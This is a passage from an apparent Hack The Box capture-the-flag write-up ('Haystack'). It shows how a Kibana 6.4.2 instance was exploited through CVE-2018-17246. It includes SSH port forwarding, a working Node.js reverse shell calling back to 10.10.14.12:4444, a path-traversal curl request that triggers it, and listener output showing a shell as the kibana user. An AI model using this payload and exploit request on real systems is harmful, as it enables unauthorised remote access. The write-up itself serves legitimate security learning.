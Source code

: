 Logstash and Kibaba are only listening on localhost. To access the ports from my box I set up SSH local port forwarding: `# ssh -L 5601:127.0.0.1:5601 -L 9600:127.0.0.1:9600 security@10.10.10.115`

Kibana is running version `Version: 6.4.2`:

![](/assets/images/htb-writeup-haystack/es4.png)

There's an LFI CVE in Kibana for that version which let us execute Javascript code.

![https://github.com/mpgn/CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

I created `/tmp/shell.js` with a standard reverse shell:

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.12", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

I then triggered my payload with `curl "http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../tmp/shell.js"`

A got a callback soon after:

```
# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.115.
Ncat: Connection from 10.10.10.115:47552.
id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.2$ 
```

